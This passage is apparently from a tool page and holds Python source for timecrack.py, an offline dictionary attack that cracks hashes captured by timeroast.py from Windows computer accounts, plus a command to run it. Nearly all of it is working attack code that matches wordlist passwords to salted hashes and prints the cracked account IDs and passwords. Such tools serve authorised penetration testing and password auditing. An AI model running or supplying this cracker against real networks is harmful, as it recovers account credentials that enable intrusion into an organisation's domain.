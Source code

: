 ```python
  # Try each dictionary entry for each hash. dictfile is read iteratively while hashes are stored in RAM.
  hashes = []
  for line in hashfile:
    line = line.strip()
    if line:
      m = re.match(HASH_FORMAT, line)
      if not m:
        print(f'ERROR: invalid hash format: {line}', file=sys.stderr)
        sys.exit(1)
      rid, hashval, salt = m.group('rid', 'hashval', 'salt')
      hashes.append((int(rid), unhexlify(hashval), unhexlify(salt)))
      
  
  for password in dictfile:
    password = password.strip()
    for rid, hashval, salt in hashes:
      if compute_hash(password, salt) == hashval:
        yield rid, password

def main():
  argparser = ArgumentParser(formatter_class=RawDescriptionHelpFormatter, description=\
"""Perform a simple dictionary attack against the output of timeroast.py.

Not even remotely optimized, but still useful for cracking legacy default 
passwords (where the password is the computer name) or specific default 
passwords that are popular in an organisation.
""")

  argparser.add_argument('hashes', type=lambda f: open(f, 'r', encoding='latin-1'), help='Output of timeroast.py')
  argparser.add_argument('dictionary', type=lambda f: open(f, 'r', encoding='latin-1'), help='Line-delimited password dictionary')
  args = argparser.parse_args()

  crackcount = 0
  for rid, password in try_crack(args.hashes, args.dictionary):
    print(f'[+] Cracked RID {rid} password: {password}')
    crackcount += 1

  print(f'\n{crackcount} passwords recovered.')

if __name__ == '__main__':
  main()

```

##### Execution

```console
$ python3 timecrack.py <FILE> /PATH/TO/WORDLIST/<WORDLIST>
```
